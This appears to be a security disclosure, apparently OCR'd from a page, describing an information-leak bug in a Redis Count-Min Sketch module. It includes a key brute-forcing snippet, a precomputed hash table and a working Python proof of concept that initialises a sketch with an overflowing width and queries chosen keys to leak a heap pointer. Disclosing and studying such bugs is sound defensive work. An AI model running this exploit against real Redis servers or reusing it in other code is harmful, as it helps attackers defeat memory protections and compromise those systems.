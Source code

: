 ```py
        if (hash_ not in hash_table):
            # print(hash_, key)
            hash_table[hash_] = key
            print(dict(sorted(hash_table.items())))
```

Example saved hash_table.txt content (truncated for brevity):

```py
{0: b'XrOjggG8', 1: b'XEYDLqDN', 4: b'1fxG6Mji', 5: b'0XMriNWu', 6: b'N5aEjknL', ... 1023: b'iKLlhWpy'}
```

## Information Leak

A heap pointer is stored at cms->array + 16.
Use indices 4 and 5 to read the low and high parts.

## PoC

```py
import redis

sketch_name = "test"

r = redis.Redis(host='localhost', port=6379, decode_responses=True)
r.flushall()

initbydim = lambda sketch_name, width, depth: r.execute_command("CMS.INITBYDIM", sketch_name, width, depth)
query = lambda sketch_name, key: r.execute_command("CMS.QUERY", sketch_name, key)

def leak(sketch_name, idx):
    if idx not in hash_table:
        print("cant find")
        return None
    key = hash_table[idx]
    return query(sketch_name, key)[0]

initbydim(sketch_name, 4611686018427387904, 1)

d = open("hash_table.txt", "r").read()
hash_table = eval(d)

low_bytes = leak(sketch_name, 4)
high_bytes = leak(sketch_name, 5)
heap_addr = (high_bytes) << 32 | low_bytes

print(hex(heap_addr))
```